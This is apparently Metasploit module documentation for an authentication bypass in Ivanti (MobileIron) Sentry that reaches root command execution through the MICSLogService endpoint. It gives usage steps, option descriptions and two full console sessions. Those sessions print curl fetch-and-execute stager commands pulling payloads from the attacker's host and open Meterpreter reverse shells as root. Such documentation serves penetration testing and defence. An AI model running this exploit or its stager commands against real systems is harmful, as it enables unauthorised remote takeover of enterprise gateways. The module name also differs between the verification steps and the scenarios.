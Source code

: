 ## Vulnerable Application
Ivanti Sentry (formerly Mobileiron Sentry) is vulnerable to an authentication by-pass which exposes API functionality which
allows for code execution in the context of the root user. The vulnerable endpoint `/mics/services/MICSLogService` exposes
a binary web service protocol 'Hessian' which allows remote users to invoke functions within the target. One of the functions
accessible via Hessian and the vulnerable endpoint is `uploadFileUsingFileInput` which accepts a `command` argument
that gets directly fed into a `Runtime.getRuntime().exec(cmd)` call. The command is run in the context of the `tomcat`
user however by default `tomcat` is in the sudoers file and thus we can use this to execute the payload in the context
of the `root` user.


## Verification Steps
1. Start `msfconsole`
1. Do: `use exploit/linux/http/ivanti_sentry_misc_service`
1. Do: `set RHOST [IP]`
1. Do: `set FETCH_SRVHOST [IP]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`


### Installation
A vulnerable instance of the software can be downloaded with the following
[link](https://mobileironsentry.blob.core.windows.net/mobileironsentrycontainer/sentry-mobileiron-9.12.0-16.vhd)
(note the .vhd file is ~34 GB). Once downloaded, import the file into your favorite hypervisor to run the software.
VMware Fusion 12 with the Sentry VM configured with a bridged network adapter worked out of the box for testing the module.

## Options

### SLEEP
Because the execution context does not allow for command piping or chaining we need to split the multi command payload
by semi-colon and send each command individually. This delay specifies how long to wait for each command to run.

### USE_SUDO
The command is executed in the context of the `tomcat` user. By default the `tomcat` user has the ability to execute
commands with `sudo`. In the event Sentry is installed on an OS that doesn't have the `sudo` binary, this has been left
has a configurable option in case it needs to be disabled.

## Scenarios

### MobileIron Sentry 9.12.0-16 (Unix In Memory)
```
msf6 > use linux/http/ivanti_sentry_misc_log_service
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set rhosts 192.168.1.78
rhosts => 192.168.1.78
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set fetch_srvhost 192.168.1.72
fetch_srvhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set verbose true
verbose => true
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > options

Module options (exploit/linux/http/ivanti_sentry_misc_log_service):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   SLEEP  3                yes       How long to wait for each command to run. Because the execu
                                             tion context does not allow for command piping or chaining
                                             we need to split the multi command payload by semi-colon an
                                             d send each command individually
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...
                                             ]
   RHOSTS         192.168.1.78     yes       The target host(s), see https://docs.metasploit.com/docs/us
                                             ing-metasploit/basics/using-metasploit.html
   RPORT          8443             yes       The target port (TCP)
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly gener
                                             ated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   USE_SUDO       true             yes       Execute payload as root using sudo
   VHOST                           no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                        address on the local machine or 0.0.0.0 to listen on all address
                                       es.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, T
                                                  NFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      QldLjjMRU        no        Name to use on remote system when storing payload; can
                                                  not contain spaces.
   FETCH_SRVHOST       192.168.1.72     no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain s
                                                  paces.
   LHOST               192.168.1.72     yes       The listen address (an interface may be specified)
   LPORT               4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > rexploit
[*] Reloading module...

[*] Command to run on remote host: curl -so /tmp/ccrjHXsc http://192.168.1.72:8080/etRbFA76UzDRclkL8zrTdg; chmod +x /tmp/ccrjHXsc; /tmp/ccrjHXsc &
[*] Fetch Handler listening on 192.168.1.72:8080
[*] HTTP server started
[*] Adding resource /etRbFA76UzDRclkL8zrTdg
[*] Started reverse TCP handler on 192.168.1.72:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Unix (In-Memory) for cmd/linux/http/x64/meterpreter_reverse_tcp
[*] Running the command: sudo curl -so /tmp/ccrjHXsc http://192.168.1.72:8080/etRbFA76UzDRclkL8zrTdg
[*] Client 192.168.1.78 requested /etRbFA76UzDRclkL8zrTdg
[*] Sending payload to 192.168.1.78 (curl/7.29.0)
[*] Running the command: sudo  chmod +x /tmp/ccrjHXsc
[*] Running the command: sudo  /tmp/ccrjHXsc &
[*] Meterpreter session 6 opened (192.168.1.72:4443 -> 192.168.1.78:40550) at 2023-08-29 14:27:57 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.8.2003 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```

### MobileIron Sentry 9.12.0-19 (Linux Dropper)

```
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set rhosts 192.168.1.78
rhosts => 192.168.1.78
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set verbose true
verbose => true
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set target 1
target => 1
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > run

[*] Started reverse TCP handler on 192.168.1.72:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.1.72:8080/vgrmjQ1
[*] Generated command stager: ["curl -so /tmp/NCAcpzqb http://192.168.1.72:8080/vgrmjQ1;chmod +x /tmp/NCAcpzqb;/tmp/NCAcpzqb;rm -f /tmp/NCAcpzqb"]
[*] Running the command: sudo curl -so /tmp/NCAcpzqb http://192.168.1.72:8080/vgrmjQ1
[*] Client 192.168.1.78 (curl/7.29.0) requested /vgrmjQ1
[*] Sending payload to 192.168.1.78 (curl/7.29.0)
[*] Running the command: sudo chmod +x /tmp/NCAcpzqb
[*] Running the command: sudo /tmp/NCAcpzqb
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.78
[*] Meterpreter session 7 opened (192.168.1.72:4443 -> 192.168.1.78:40572) at 2023-08-29 14:28:22 -0400
[*] Running the command: sudo rm -f /tmp/NCAcpzqb
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.8.2003 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```


